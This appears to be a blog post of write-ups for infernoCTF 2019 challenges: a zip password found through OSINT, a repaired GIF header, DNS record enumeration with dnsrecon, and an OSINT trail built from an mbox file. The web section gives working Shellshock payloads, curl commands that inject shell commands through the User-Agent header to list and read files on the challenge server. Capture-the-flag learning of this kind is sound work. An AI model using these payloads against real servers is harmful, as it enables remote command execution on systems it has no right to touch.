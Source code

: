 ```yaml
---
layout: post
title: "infernoCTF 2019"
date: 2019-12-28T05:34:17-05:00
description: "forensic, web, misc, osint writeup"
categories: 
- CTF
tags: 
- writeups
- ctf
- catch the flag
---
```

<br>
# Merry Christmas (Forensic, 200)
<br>
### Description
OSINT is the way
<br><br>
### Solution

We were given a zip file named `output.zip` and a hint `What is mrT4ntr4's last name?` 

Most probably the password of the zip file is mrT4ntr4's last name. So let's search it over the internet.

![nice](/assets/images/Screenshot_2019-12-28_05-48-27.png)
<br>
After extracting the zip file with a password "Malhotra", there's this file named `flag.gif`. Did some check on the gif file and foundout that the header was modified.
<br>
![nice](/assets/images/Screenshot_2019-12-28_05-57-28.png)
<br>
The file signature for GIF file should be like this **47 49 46 38 37 61** or **47 49 46 38 39 61**

Fixing the modified header to its original will give us the flag!

<!-- ![nice](/assets/images/Screenshot_2019-12-28_06-06-37.png) -->

![nice](/assets/images/infernoCTF_2019_flag.gif)

`infernoCTF{M3RRy_ChR1stmAs}`

------
<br>
# We will we will Shock You (Web, 150)
<br>
### Description
`http://104.197.168.32:17012/index.html`
<br><br>
### Solution

The title itself gives me an idea that maybe it's a shellshock bash bug.

Checking the source code of the website gives me this file `bashferno.cgi`
<br><br>
![nice](/assets/images/Screenshot_2019-12-28_06-15-42.png)

Ok lets try to get that flag using shellshock exploit.

```
curl -H "user-agent: () { :; }; echo; echo; /bin/ls" http://104.197.168.32:17012/bashferno.cgi
```
![nice](/assets/images/Screenshot_2019-12-28_06-20-42.png)
<br><br>
cat'ting the txt file will give us the flag

``` 
curl -H "user-agent: () { :; }; echo; echo; /bin/cat flag_for_this_INFERNO.txt" http://104.197.168.32:17012/bashferno.cgi
```
<br>
reading the text file will give us the flag.

`infernoCTF{F33l_Th3_Sh0ck}`

------
<br>
# Check Again (200)
<br>
#### Description
_Did you check the site , I mean check again._
<br><br>
### Solution

We we're given a text file named `Openit` and a hint `Dante Nero Sparda are the true demons.`
<br><br>
Checking the text file give me this lol

> Check Again!!!
> 
> 
> ...
> 
> 
> Press Home Btn.

<br>
As you can see in the hint `D`ante `N`ro `S`parda are the true demons.

So okay, we need to check the DNS of the website.
<br><br>
I used [dnsrecon](https://github.com/darkoperator/dnsrecon) for this.

``` 
dnsrecon -d infernoctf.live -D /usr/share/wordlists/dnsmap.txt -t std --xml dnsrecon.xml
```

![nice](/assets/images/Screenshot_2019-12-28_06-39-08.png)
<br>
As you can see on the SPF and TXT, the flag is shown. 
<br>
`infernoCTF{N1c3_Pl4c3_70_h1d3_1n_th3_Rec0rds}`

------
<br>
# Whistle Blower (OSINT, 226)
<br>
### Description
_After playing some 2048 you come across an interesting email exchange... What could it lead to?_
<br><br>
### Solution
Cheking the file `employment_status.mbox` 
```javascript
X-Gmail-Labels: Sent,Opened,leak
MIME-Version: 1.0
Date: Tue, 24 Dec 2019 13:59:13 -0800
Subject: Re: Status Regarding Your Employment
From: iam thedeveloper <imdeveloper123@gmail.com>
To: angry employer <veryangryemployer@gmail.com>
Content-Type: multipart/alternative; boundary="0000000000005405a8059a7a4108"

--0000000000005405a8059a7a4108
Content-Type: text/plain; charset="UTF-8"

Hello Angry Employer,

I will not stand for this, it was a simple mistake that anyone could have
made.
If anything, I should blame your company training!
I'm leaking all confidential information, on purpose this time.

Hope you like being the center of attention on infosec twitter!

- imdeveloper123

On Tue, Dec 24, 2019 at 1:54 PM angry employer <veryangryemployer@gmail.com>
wrote:

Hello Mr. imdeveloper123,

Are you kidding me? You leaked company info by making the dot-files you
use for work purposes *public* on your GitHub?
It should come at no surprise that as of the time of writing this email,
you are permanently released from your current job.

Please talk to HR ASAP.

- Angry Employer
```
<br>
This line `Hope you like being the center of attention on infosec twitter!` gives me an idea. Let's find something useful on twitter! 

Tried searching `imdeveloper123` on twitter and it leads me to this account [@imdeveloper123](https://twitter.com/imdeveloper123)

![nice](/assets/images/Screenshot_2019-12-28_06-56-29.png)

Checking the deleted website on [https://web.archive.org/web/20191224223734/https://iamthedeveloper123.weebly.com/](https://web.archive.org/web/20191224223734/https://iamthedeveloper123.weebly.com/) will give us the flag.

`infernoCTF{y0u_f0und_7h3_d1sgrun7l3d_empl0y33!}`

---
